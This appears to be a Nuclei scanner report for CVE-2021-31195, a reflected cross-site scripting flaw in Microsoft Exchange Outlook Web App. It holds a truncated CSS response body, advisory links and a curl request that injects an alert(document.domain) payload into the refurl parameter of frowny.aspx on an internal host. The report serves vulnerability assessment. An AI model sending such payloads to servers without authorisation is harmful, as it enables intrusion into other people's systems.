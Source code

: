 ```http
	font-family:'wf_segoe-ui_semilight', 'Segoe UI Semilight', 'Segoe WP Semilight', 'Segoe UI', 'Segoe WP', Tahoma, Arial, sans-serif;
    cursor: pointer;
    margin-bottom: 15px;
    outline:none;
}

.officeLogo
{
    position:absolute;
    bottom:33px;
    right: 45px;
}

.refreshPageButton
{
    font-size: 24px;
    font-family:'wf_segoe-ui_normal', 'Segoe UI', 'Segoe WP', Tahoma, Arial, sans-serif;
    color: #0072C6; 
    border: 0px;
    background-color:transparent;
    cursor: pointer;
    padding:0px;
    margin:0px;
}

.addToFavouritesButton
{
    font-size: 16px;
    font-family:.... Truncated ....
```

References: 
- https://blog.orange.tw/2021/08/proxyoracle-a-new-attack-surface-on-ms-exchange-part-2.html
- https://msrc.microsoft.com/update-guide/vulnerability/cve-2021-31195
- https://nvd.nist.gov/vuln/detail/cve-2021-31195
- https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/cve-2021-31195

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2866.71 Safari/537.36' 'https://10.10.252.86/owa/auth/frowny.aspx?app=people&esrc=MasterPage&et=ServerError&refurl=}}}alert(document.domain)//&te=\'
```
---
Generated by [Nuclei 2.9.0](https://github.com/projectdiscovery/nuclei)